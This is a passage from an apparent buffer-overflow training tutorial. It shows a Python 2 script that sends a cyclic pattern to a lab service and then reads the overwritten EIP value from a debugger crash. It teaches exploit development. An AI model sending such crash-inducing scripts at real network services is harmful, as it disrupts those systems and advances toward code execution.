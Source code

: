 This is a handy dandy sequence of characters in which every "chunk" of four
sequential characters is unique. We can use it instead of our 1024 `A`'s and
check to see which four of them ends up in `EIP`.

\newpage

Updating our Python script to include the pattern:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = ""
buf += ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab"
  "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8A"
  "d9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
  "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai"
  "0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0A"
  "k1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1"
  "Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao"
  "2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A"
  "q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3"
  "As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au"
  "4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4A"
  "w5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5"
  "Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
  "6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6B"
  "c7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7"
  "Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg"
  "8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B")
buf += "\n"

s.send(buf)
```

---

\newpage

And sending 'er off:

```
% ./exploit.py
```

We get a somewhat different crash this time. Instead of `0x41414141` (`"AAAA"`)
being in `EIP`, we have `0x39654138` (`"9eA8"`).

![Different crashy crashy. `EIP` = `0x39654138`
("9eA8")](dostackbufferoverflowgood_images/immdbg_0x39654138.png)
